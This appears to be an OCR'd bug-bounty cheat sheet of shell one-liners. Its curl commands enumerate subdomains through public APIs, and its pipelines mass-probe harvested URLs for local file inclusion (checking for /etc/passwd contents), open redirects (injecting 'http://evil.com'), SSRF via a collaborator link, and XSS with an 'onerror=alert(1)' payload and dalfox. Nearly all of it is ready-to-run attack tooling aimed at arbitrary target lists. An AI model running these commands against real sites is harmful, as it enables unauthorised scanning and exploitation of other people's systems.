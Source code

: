 ```
## from ThreatCrowd
curl -s "https://www.threatcrowd.org/searchApi/v2/domain/report/?domain=target.com" | jq -r '.subdomains' | grep -o "\w.*target.com"

## from HackerTarget
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"

## from AlienVault
curl -s "https://otx.alienvault.com/api/v1/indicators/domain/tesla.com/url_list?limit=100&page=1" | grep -o '"hostname": *"[^"]*' | sed 's/"hostname": "//' | sort -u

## from Censys
censys subdomains target.com

## from subdomain center
curl "https://api.subdomain.center/?domain=target.com" | jq -r '.[]' | sort -u
```
--------
## LFI:
```
cat targets.txt | (gau || hakrawler || waybackurls || katana) |  grep "=" |  dedupe | httpx -silent -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```
----------------------
## Open Redirect:
```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```
```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | grep "=" | dedupe | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```
-----------------------
## SSRF:
```
cat urls.txt | grep "=" | qsreplace "burpcollaborator_link" >> tmp-ssrf.txt; httpx -silent -l tmp-ssrf.txt -fr 
```
----------------
## XSS:
### Knoxss mass hunting
```
file=$1; key="API_KEY"; while read line; do curl https://api.knoxss.pro -d target=$line -H "X-API-KEY: $key" -s | grep PoC; done < $file
```
```
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico|gif|css|woff|svg)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```
```
cat targets.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
```
```